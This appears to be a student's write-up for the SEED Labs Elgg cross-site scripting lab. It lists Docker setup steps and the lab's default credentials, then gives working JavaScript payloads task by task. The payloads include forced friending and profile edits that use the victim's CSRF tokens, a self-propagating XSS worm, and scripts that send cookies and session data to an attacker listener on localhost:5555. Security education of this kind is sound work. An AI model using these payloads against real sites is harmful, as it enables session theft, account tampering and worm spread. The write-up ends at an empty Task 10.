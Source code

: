 * Setup
** Docker Compose Setup
*** cd category-web/Web_XSS_Elgg/Labsetup
*** docker-compose up
*** modify the /etc/hosts file with the following configurations
      10.9.0.5 www.seed-server.com
      10.9.0.5 www.example32a.com
      10.9.0.5 www.example32b.com
      10.9.0.5 www.example32c.com
      10.9.0.5 www.example60.com
      10.9.0.5 www.example70.com
*** Go to www.seed-server.com and if you find the login page then the setup is complete

** Credentials
|----------+-------------|
| UserName | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert("XSS");</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-1-inject-js.png]]


* Task 2
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert(document.cookie);</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-2-display-cookie.png]]


    
* Task 3
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function () {
      var Ajax=null;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
      var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2
      //Construct the HTTP request to add Samy as a friend.
      var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token; 
      //Create and send Ajax request to add friend
      Ajax=new XMLHttpRequest();
      Ajax.open("GET", sendurl, true);
      Ajax.send();
    }
  </script>
#+END_SRC

Here when Alice visits Samy's profile a Samy will be automatically befriended with his profile visitor(victim).
The script attached in the about me section will be executed and that will silently send a request from victim's end.

We need ts and token because this provide authentication,i.e. the attackers request is posing as if as it is coming
from the victim's end.

** Screenshot
[[./screenshots/task-4-victim-befriended.png]]




* Task 4
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function(){
      //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
      //and Security Token __elgg_token
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      var description='&description=<p>Samy is my hero<p>';
      //Construct the content of your url.
      var samyGuid=59;
      var sendurl='http://www.seed-server.com/action/profile/edit';
      var content=username+guid+ts+token+description;
      if(elgg.session.user.guid!=samyGuid) { // 1
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
      }
    }
  </script>
#+END_SRC

Here the line with if condition is very important because, if we change the about me section of even Samy, the attack would only work until Samy visits
his profile next time, after that Samy's 'About Me' section will be changed to '<p>Samy is my hero<p>' and the attack will no longer work since
there is no malacious code in Samy's profile anymore.

So with the line 1 we are guarding our injection so that, samy profile doesn't change with AJAX requests.

** Screenshot
[[./screenshots/task-5-samy-is-my-hero.png]]


* Task 5
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function () {
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
      var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2
      var description='&description=<p>Samy is my hero<p>';

      //Construct the HTTP requests
      var sendurlFriend='http://www.seed-server.com/action/friends/add?friend=59'+ts+token; 
      var sendurlProfile='http://www.seed-server.com/action/profile/edit';

      //Create and send Ajax requests
      var samyGuid=59;
      if(elgg.session.user.guid!=samyGuid) { // 1
        //Create and send Ajax request to modify profile
        var Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurlProfile, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        var content=username+guid+ts+token+description;
        Ajax.send(content);

        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurlFriend, true);
        Ajax.send();
      }
    }
  </script>
#+END_SRC

Here when Alice visits Samy's profile a Samy will be automatically befriended with his profile visitor(victim).
And her about me in the profile will be changed.

** Screenshot
    [[./screenshots/task-3-4.png]]


* Task 6

** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script id="worm">
    window.onload = function(){
      //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
      //and Security Token __elgg_token
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      //Construct the content of your url.
      var sendurl='http://www.seed-server.com/action/profile/edit';

      var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

      var description='&description=<p>Samy is my hero<p>' + wormCode;
      var content=username+guid+ts+token+description;

      var Ajax=new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
    }
  </script>
#+END_SRC

  Here when someone visits samy's profile the code gets replicated into his description, and then when someone else visits infected persons profile
  then his profile also gets infected and the worm spread in the internet.


* Task 7
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function() {
      var username=elgg.session.user.username;
      var settingsurl = `http://www.seed-server.com/settings/user/${username}`;
      var Ajax=new XMLHttpRequest();
      Ajax.onreadystatechange = () => {
        if (Ajax.readyState === 4) {
          (function(response) {
              var isBoby = /elgg_boby@seed-labs.com/.test(response);
              if (!isBoby) return;
              var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
              var token="&__elgg_token="+elgg.security.token.__elgg_token;
              var name="&name=Bola";
              var sendurl='http://www.seed-server.com/action/usersettings/save';
              var content=ts+token+name;
              var AjaxI=new XMLHttpRequest();
              AjaxI.open("POST", sendurl, true);
              AjaxI.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
              AjaxI.send(content);
          })(Ajax.response);
        }
      }
      Ajax.open("GET", settingsurl, true);
      Ajax.send();
    }
  </script>
#+END_SRC

  Here first we are checking whether the visitor is Boby by getting his email through settings page using Ajax. As we know Boby's email,
  so we are checking whether its truely boby or not using the email address. The test is very crude in terms that it the search will return true
  if it finds boby's email in settings page among many other things using regex. After we are confirmed that it is Boby, who is visiting Samy's
  profile page, then we create a post request with display name 'Bola' and execute it.

** Screenshots
    [[./screenshots/task-7.png]]



* Task 8 
   Since we are simulating the cookie stealing using a server, we are assuming localhost is the host machine setup by the attacker. 
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>document.write('<img src=http://localhost:5555?c='+escape(document.cookie)+'>');</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-3-steal-cookie.png]]


* Task 9
    Since we are simulating the cookie stealing using a server, we are assuming localhost is the host machine setup by the attacker. 
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function() {
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var url="http://localhost:5555?"+username+guid;

      var Ajax=new XMLHttpRequest();
      Ajax.open("GET", url, true);
      Ajax.send();
    }
  </script>
#+END_SRC

** Screenshot
[[./screenshots/task-9.png]]



* Task 10
